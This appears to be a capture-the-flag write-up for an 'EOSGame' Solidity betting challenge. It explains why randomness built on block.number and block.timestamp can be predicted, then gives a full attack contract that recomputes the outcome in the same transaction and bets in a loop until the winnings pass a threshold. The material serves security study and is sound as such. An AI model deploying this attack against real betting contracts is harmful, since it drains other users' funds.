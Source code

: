 - From the `bet()` we see that *shark* is unchanging, it is decided on `block.number` and `block.timestamp`, so we can guess many times in a tx.
- We can imitate the guessing rules to obtain random numbers. Because our guess and EOSGame guess are located on the same tx, their block information is same.
- *lucky_hash* will not change unless the `bet_count[tx.origin]` change, this means we should guess once in a tx or our guessing number will not change. In this case, I will call bigBlind if the guessing number is not right or I will call smallBlind(). Attention, maybe the tx will out of gas because we are not lucky enough to guess. Guessing wrong, it minus us 1 eosToken, but guessing right, we will get 20 * 100 -20 = 1980 eos token, it means we should guess right at least 10 times. 

## solve

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.4.24;
import "./02.EOSGame.sol";
import "hardhat/console.sol";
contract EOSGameAttack {
    EOSGame game;
    using SafeMath for uint256;
    uint256 MOD_NUM = 20;

    constructor(address _addr){
      game = EOSGame(_addr);
    }

    function attack() public {
      while(true){
        uint tmp = game.bet_count(tx.origin).add(1);
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 seed_hash = uint256(keccak256(abi.encodePacked(seed)));
        uint256 shark = seed_hash % MOD_NUM;
        uint256 lucky_hash = uint256(keccak256(abi.encodePacked(tmp)));
        uint256 lucky = lucky_hash % MOD_NUM;
        if (shark == lucky){
          console.log("第",tmp,"次猜测,","成功，执行bigBlind()");
          game.bigBlind();
        }else{
          console.log("第",tmp,"次猜测,","没猜中");
          game.smallBlind();
        }
        if(game.eosBlanceOf() > 18888){
          break;
        }
      }
    }
}
```

not lucky enought :( but our eosToken will not be minus,so we can guess again for the atomic transactions.

![https://moe.photo/images/2023/05/21/image-20230521140111235.png](https://moe.photo/images/2023/05/21/image-20230521140111235.png)

lucky enough :)

![https://moe.photo/images/2023/05/21/image-20230521140056825.png](https://moe.photo/images/2023/05/21/image-20230521140056825.png)







